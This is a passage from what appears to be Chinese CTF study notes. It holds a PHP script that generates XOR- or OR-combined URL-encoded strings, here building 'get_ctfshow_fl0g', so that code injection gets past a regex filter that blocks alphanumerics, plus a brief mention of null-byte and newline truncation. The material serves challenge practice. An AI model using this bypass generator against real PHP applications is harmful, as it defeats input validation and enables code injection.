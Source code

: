 ```php
                continue;
            }
            for ($k = 0; $k <= 128; $k++) {
                if (preg_match($preg, chr($k))) {
                    continue;
                }
                $mode === 1 ? $result = $j ^ $k : $result = $j | $k;
                if ($result === ord($i)) {
                    if (strlen(dechex($j)) == 1) {
                        $temp1 = '0' . dechex($j);
                    } else {
                        $temp1 = dechex($j);
                    }
                    if (strlen(dechex($k)) == 1) {
                        $temp2 = '0' . dechex($k);
                    } else {
                        $temp2 = dechex($k);
                    }
                    $output1 = $output1 . "%" . $temp1;
                    $output2 = $output2 . "%" . $temp2;
                    $flag = 1;
                    break;
                }
            }
            if ($flag === 1) {
                break;
            }
        }
    }
    // echo "output1:".$output1."\n"."output2:".$output2."\n";
    if ($mode === 1) {
        echo "code: (\"$output1\"^\"$output2\")";
    } else {
        echo "code: (\"$output1\"|\"$output2\")";
    }
}


$choose = 1; // 1 2 3分别对应异或，或，取反。
$preg = '/[A-Za-z0-9_\%\\|\~\'\,\.\:\@\&\*\+\- ]+/';  // 替换为要绕过的正则
// $preg = "/[a-z]/";
$code = "get_ctfshow_fl0g";  // 替换为要生成的代码

generate_code($preg, $code, $choose);

```



### 字符串截断

PHP中截断的方式：\00（空字符）截断、\0a（换行符）截断
